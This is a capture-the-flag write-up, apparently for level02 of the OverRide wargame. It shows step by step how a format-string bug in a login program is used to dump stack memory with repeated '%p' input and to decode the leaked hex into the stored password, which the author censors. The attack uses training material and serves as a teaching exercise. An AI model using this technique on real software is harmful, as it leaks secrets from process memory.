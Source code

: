# level 02

For the first time we have a x64 program that reads the password file and then check the user input against it to give a shell.

It also calls printf with a format string the user controls.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: rewrite it in %p %d
--[ Password: javascript
*****************************************
rewrite it in 0x7fffffffe4d0 0 does not have access!
```

Let's check what the value of our format string is in hex
```shell
level02@OverRide:~$ python -c 'print "%p|".encode("hex")'
25707c
```

Let's now scan the memory to find it
```shell
level02@OverRide:~$ ./level02 < <(python -c 'print "%p|"*30')
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4d0|(nil)|(nil)|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6c8|0x1f7ff9a08|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70| does not have access!
```

We can see that it's the 28th parameter to printf, more interesting looking at the posiiton of the variables in the stack, the password buffer should come right before it.
The trailing 0 confirms our suspicions.

Let's convert these blocks to ascii, while keeping in mind to account for the endianness
```
756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d
```

```shell
level02@OverRide:~$ python -c 'print "".join([i.decode("hex")[::-1] for i in "756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d".split("|")])'
[censored]
```
Nice!
